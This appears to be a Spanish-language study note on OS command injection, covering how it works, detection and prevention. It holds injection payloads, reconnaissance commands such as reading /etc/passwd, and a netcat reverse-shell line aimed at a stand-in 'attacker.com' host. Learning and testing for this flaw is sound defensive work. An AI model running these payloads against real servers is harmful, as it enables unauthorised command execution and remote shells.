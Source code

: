 ## 🚧 OS Command Injection

---

# 🔐 ¿Qué es OS Command Injection?

**OS Command Injection** (tambien conocido como **Shell Injection**) es una vulnerabilidad que ocurre cuando una aplicación web permite que un atacante inyecte y ejecute **comandos arbitrarios del sistema operativo** en el servidor.

Cuando esto ocurre, el atacante puede:

- Ejecutar comandos con los mismos privilegios que el proceso vulnerable (por ejemplo, el usuario del servidor web).
- Acceder a archivos sensibles, credenciales, servicios de red internos.
- En muchos casos, escalar privilegios o pivotear hacia otros sistemas internos.

> 🚀 Es una de las vulnerabilidades **más críticas** que puede sufrir una aplicación web.

---

# 🔹 Ejemplo de funcionamiento vulnerable

### Contexto:

Una tienda online permite consultar el stock de un producto en una sucursal específica mediante la siguiente URL:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

En el backend, el sistema ejecuta el siguiente comando en una terminal para consultar el stock en sistemas legados:

```bash
stockreport.pl 381 29
```

El problema aparece cuando los valores de `productID` y `storeID` son inyectados directamente en el comando del sistema **sin ninguna validación o sanitización**.

---

# 🚨 Explotación básica

El atacante puede enviar lo siguiente como valor de `productID`:

```
& echo aiwefwlguh &
```

El comando resultante que se ejecuta es:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Lo que ejecuta:
1. `stockreport.pl` (sin argumentos, produce un error).
2. `echo aiwefwlguh` (el string aparece en la salida).
3. `29` (interpreta `29` como un comando, produce un error).

### Resultado en pantalla:
```
Error - productID was not provided
aioefwguh
29: command not found
```

### 🔗 Caracteres de inyección comunes en Linux:

| Carácter | Funcón |
|----------|--------|
| `&` | Ejecuta comandos en secuencia (se ejecutan simultáneamente). |
| `;` | Separa comandos independientes (se ejecutan en orden, uno después del otro, sin importar si el primero falla o no). |
| `\|` | Pipe: conecta la salida de un comando con otro. |
| `\|\|`, `&&` | Condicionales: ejecuta solo si el anterior falla(`\|\|`)/exitoso (`&`). |
| `\`` o `$()` | Ejecuta comandos en subshell. |

### 🔗 Ejemplo de payloads:

```bash
productID=381; whoami
productID=381 && ls /
productID=381 | nc attacker.com 4444 -e /bin/bash
productID=381$(id)
```

---

# 🔢 Variantes por sistema operativo

### 🌎 Linux:

| Comando | Descripción |
|---------|-------------|
| `id` | Muestra el usuario actual. |
| `uname -a` | Info del kernel y sistema. |
| `cat /etc/passwd` | Usuarios del sistema. |
| `netstat -tuln` | Puertos abiertos. |

### 🌊 Windows:

| Comando | Descripción |
|---------|-------------|
| `whoami` | Usuario actual. |
| `dir` | Lista archivos del directorio. |
| `ipconfig` | Info de red. |
| `type C:\\Windows\\win.ini` | Leer archivo clásico para prueba. |

> ⚠️ En Windows, los comandos se pueden inyectar con `&`, `&&`, `|`, `^`.

---

# 🔒 Técnicas para detectar OS Command Injection

1. **Inyección de comandos de eco:**
   ```bash
   & echo testcmd &
   ```
   Si "testcmd" aparece en la respuesta, hay ejecución.

2. **Retraso por tiempo (blind):**
   ```bash
   ; sleep 10
   ```
   Si la respuesta demora, el comando fue ejecutado aunque no haya salida visible.

3. **Out-of-Band (OAST):**
   ```bash
   ; curl http://your-burpcollaborator.net
   ```
   Se usa para detectar ejecución si no hay respuesta directa (blind RCE).

[Lab: OS command injection, simple case](1_OS_command_injection_simple_case.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)  

---

# 🚫 Cómo prevenir OS Command Injection

### ✅ 1. Evitar construir comandos con datos del usuario
- Usar APIs del lenguaje que **no invocan shell** (por ejemplo, `subprocess.run()` en Python con `shell=False`).

### ✅ 2. Validar estrictamente la entrada
- Usar **listas blancas** (whitelisting) para los argumentos esperados.
- Rechazar cualquier caracter especial como `;`, `&`, `|`, `>`.

### ✅ 3. Uso de privilegios mínimos
- El proceso que ejecuta el comando debe correr como un usuario **con permisos limitados**.

### ✅ 4. Escape adecuado de argumentos
- Si realmente se deben usar en comandos, escapar correctamente según el sistema operativo.

---

# 🎓 Conclusión

**OS Command Injection** es una de las vulnerabilidades más críticas debido a su capacidad de proporcionar al atacante **acceso directo al sistema operativo** del servidor. Con pocos caracteres, un atacante puede escalar desde un acceso limitado hasta tomar control completo del entorno.

La prevención se basa en:
- **No confiar nunca en la entrada del usuario**.
- Evitar ejecutar comandos innecesariamente.
- Implementar validaciones estrictas y usar métodos seguros para ejecutar procesos si es inevitable.

> ⚠️ Como pentester, la detección de OS command injection puede ser sutil, pero los resultados son devastadores cuando se explota correctamente.

